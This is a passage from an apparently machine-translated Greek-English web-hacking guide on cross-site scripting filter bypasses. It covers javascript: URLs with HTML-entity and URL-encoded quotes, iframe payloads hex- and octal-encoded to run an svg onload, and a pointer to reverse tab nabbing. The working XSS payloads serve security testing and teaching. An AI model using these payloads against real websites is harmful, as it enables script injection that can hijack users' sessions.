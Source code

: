 ```markup
```
**Άλλες τεχνικές απόκρυψης**

_**Σε αυτή την περίπτωση, το HTML encoding και το Unicode encoding trick από την προηγούμενη ενότητα είναι επίσης έγκυρα καθώς βρίσκεστε μέσα σε ένα attribute.**_
```javascript
<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```
Moreover, there is another **nice trick** for these cases: **Ακόμα και αν η είσοδός σας μέσα στο `javascript:...` είναι κωδικοποιημένη URL, θα αποκωδικοποιηθεί πριν εκτελεστεί.** So, if you need to **escape** from the **string** using a **single quote** and you see that **είναι κωδικοποιημένη URL**, remember that **δεν έχει σημασία,** it will be **interpreted** as a **single quote** during the **execution** time.
```javascript
&apos;-alert(1)-&apos;
%27-alert(1)-%27
<iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
```
Σημειώστε ότι αν προσπαθήσετε να **χρησιμοποιήσετε και τα δύο** `URLencode + HTMLencode` με οποιαδήποτε σειρά για να κωδικοποιήσετε το **payload** δεν θα **λειτουργήσει**, αλλά μπορείτε να **τα αναμίξετε μέσα στο payload**.

**Χρησιμοποιώντας Hex και Octal encode με `javascript:`**

Μπορείτε να χρησιμοποιήσετε **Hex** και **Octal encode** μέσα στο `src` attribute του `iframe` (τουλάχιστον) για να δηλώσετε **HTML tags για να εκτελέσετε JS**:
```javascript
//Encoded: <svg onload=alert(1)>
// This WORKS
<iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />
<iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />

//Encoded: alert(1)
// This doesn't work
<svg onload=javascript:'\x61\x6c\x65\x72\x74\x28\x31\x29' />
<svg onload=javascript:'\141\154\145\162\164\50\61\51' />
```
### Αντεστραμμένο tab nabbing
```javascript
<a target="_blank" rel="opener"
```
Αν μπορείτε να εισάγετε οποιαδήποτε διεύθυνση URL σε μια αυθαίρετη **`<a href=`** ετικέτα που περιέχει τα **`target="_blank" και rel="opener"`** χαρακτηριστικά, ελέγξτε τη **παρακάτω σελίδα για να εκμεταλλευτείτε αυτή τη συμπεριφορά**:

{% content-ref url="../reverse-tab-nabbing.md" %}
[reverse-tab-nabbing.md](../reverse-tab-nabbing.md)
{% endcontent-ref %}

### σχετικά με την παράκαμψη χειριστών συμβάντων
